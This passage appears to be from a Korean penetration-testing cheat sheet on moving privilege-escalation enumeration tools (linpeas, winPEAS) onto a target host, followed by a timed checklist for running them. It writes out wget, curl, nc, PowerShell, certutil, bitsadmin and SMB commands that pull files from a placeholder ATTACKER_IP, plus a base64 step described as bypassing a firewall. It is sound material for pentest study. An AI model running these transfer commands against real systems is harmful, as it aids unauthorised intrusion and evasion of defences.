 ```bash
# Linux에서 파일 다운로드
wget http://ATTACKER_IP:8000/linpeas.sh
curl -O http://ATTACKER_IP:8000/linpeas.sh
nc ATTACKER_IP 4444 < linpeas.sh  # 공격자에서 nc -l -p 4444 > linpeas.sh

# Base64 인코딩 전송 (방화벽 우회)
echo "base64_encoded_script" | base64 -d > linpeas.sh
```

```cmd
:: Windows에서 파일 다운로드
powershell -c "Invoke-WebRequest -Uri 'http://ATTACKER_IP:8000/winPEAS.exe' -OutFile 'winPEAS.exe'"
certutil -urlcache -split -f http://ATTACKER_IP:8000/winPEAS.exe winPEAS.exe
bitsadmin /transfer myDownloadJob /download /priority normal http://ATTACKER_IP:8000/winPEAS.exe C:\Windows\Temp\winPEAS.exe

REM SMB를 통한 전송
copy \\ATTACKER_IP\share\winPEAS.exe C:\Windows\Temp\
```

## 📋 단계별 체크리스트

### Phase 1: 플랫폼 및 도구 선택 (1분)

- [ ] **운영체제 확인**: Linux vs Windows 플랫폼 판별
- [ ] **아키텍처 확인**: x86 vs x64 (32bit vs 64bit)
- [ ] **권한 확인**: 현재 사용자 권한 및 제약사항
- [ ] **네트워크 접근**: 인터넷 연결 가능 여부
- [ ] **파일 업로드**: 파일 업로드 가능한 디렉토리 확인

### Phase 2: 도구 다운로드 및 업로드 (2분)

- [ ] **인터넷 접근 가능**: wget, curl, PowerShell로 직접 다운로드
- [ ] **인터넷 차단**: 공격자 머신에서 도구 업로드
- [ ] **실행 권한**: 다운로드한 도구에 실행 권한 부여
- [ ] **경로 확인**: 도구가 올바른 경로에 배치되었는지 확인
- [ ] **안티바이러스**: 바이러스 스캐너에 의한 삭제 여부 확인

### Phase 3: 자동화 도구 실행 (3-5분)

- [ ] **기본 실행**: 도구의 기본 스캔 모드 실행
- [ ] **결과 저장**: 스캔 결과를 파일로 저장
- [ ] **빠른 모드**: 시간이 부족한 경우 빠른 스캔 모드
- [ ] **상세 모드**: 시간이 충분한 경우 상세 스캔 모드
- [ ] **오류 처리**: 실행 중 오류 발생시 대안 도구 사용

### Phase 4: 결과 분석 및 수동 확인 (5분)

- [ ] **고위험 발견**: 즉시 권한상승 가능한 취약점 우선 확인
- [ ] **중위험 발견**: 추가 분석이 필요한 취약점들
- [ ] **수동 검증**: 자동화 도구 결과의 수동 확인
- [ ] **False Positive**: 거짓 양성 결과 필터링
- [ ] **추가 도구**: 필요시 다른 자동화 도구 병행 실행

